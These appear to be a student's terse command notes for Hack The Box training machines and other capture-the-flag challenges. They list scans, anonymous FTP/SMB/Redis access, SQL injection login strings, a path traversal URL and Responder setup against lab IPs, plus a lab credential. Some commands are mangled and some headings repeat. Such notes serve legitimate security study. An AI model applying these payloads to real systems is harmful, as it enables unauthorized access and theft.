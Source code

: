 ## Meow challenge:
- sudo openvpn {filename.opvn}
- ping {target_ip}
- sudo nmap -sV 10.129.239.25
- telnet {target_ip}


## Fawn challenge
- sudo nmap {target_ip}
- sudo nmap -sV {target_ip}
- sudo apt install ftp -y
- ftp -h
- ftp {target_ip}
  `username: anonymous
  `password:
- ftp> help
- ftp> ls
- ftp> get flag.txt
- ftp> bye
- cat flag.txt


## Dancing challenge:
- sudo nmap -sV {target_ip}
- sudo apt-get install smbclient
- smbclient -L 10.129.239.172
- smbclient \\\\10.129.239.172\\ADMIN$
- smbclient \\\\10.129.239.172\\C$
- smbclient \\\\10.129.239.172\\WorkShares
- smb: \> help
- smb: \> ls
- smb: \> cd Amy.J
- smb: \Amy.J\> ls
- smb: \Amy.J\> get worknotes.txt
- smb: \Amy.J\> cd ..
- smb: \> cd James.P
- smb: \James.P\> ls
- smb: \James.P\> get flag.txt
- cat flag.txt


## Redeemer challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- nmap -p- -sV 10.129.28.47
- sudo apt install redis-tools
- redis-cli --help
- redis-cli -h 10.129.28.47
- 10.129.28.47:6379> info
- 10.129.28.47:6379> select 0
- 10.129.28.47:6379> keys *
- 10.129.28.47:6379> get stor
- 10.129.28.47:6379> get temp
- 10.129.28.47:6379> get numb
- 10.129.28.47:6379> get flag


## Apointment challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- sudo nmap -sC -sV 10.129.164.88
- http://10.129.164.88/
- Username: admin'#
- Password: abc123


## Sequel challenge:
- sudo nmap -sC -sV 10.129.95.232
- sudo apt update && sudo apt install mysql *
- mysql --help
- mysql -h 10.129.95.232 -u root
- SHOW databases;
- USE htb;
- SHOW tables;
- SELECT * FROM config;


## Crocodile challenge:
- nmap -sC -sV 10.129.146.153
- ftp-anon: Anonymous FTP login allowed (FTP code 230)
- ftp 10.129.146.153
- Name (10.129.146.153:ahmed20078): anonymous
- ftp> help
- ftp> dir
- ftp> get allowed.userlist
- ftp> get allowed.userlist.passwd
- ftp> exit
- cat allowed.userlist
- cat allowed.userlist.passwd
- gobuster dir --url http://10.129.146.153/ --wordlist /media/ahmed20078/ahmed78/Documents/Cyber Projects/go/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html
- http://10.129.146.153/login.php
- admin:svndkfngksjvrdkufhkr


## Crocodile challenge:
- nmap -p- --min-rate 1000 -sV 10.129.95.234
- echo "10.129.95.234 unika.htb" | sudo tee -a /etc/hosts
- http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
- git clone https://github.com/lgandx/Responder
- sudo python2 Responder.py -I tun0


# Cybersecurity Training

## Mr Robot challenge:
- http://104.248.39.227:10001/
- http://104.248.39.227:10001/robots.txt


- www-data
- id = 33

- Docker hub: for study

## Headache challenge:
- http://104.248.39.227:10002/
- curl http://104.248.39.227:10002/ -H 'wanna-something:the-flag'


HTTP verb:
- Post
- Get
- Put
- Delete

- Post /auth http/4.5..
- user-agent
- Origine:

- Burp suite
- Caido

## Headache challenge:
- http://104.248.39.227:10003/
- login
- http://104.248.39.227:10003/?username=admin'or 5=5 -- -
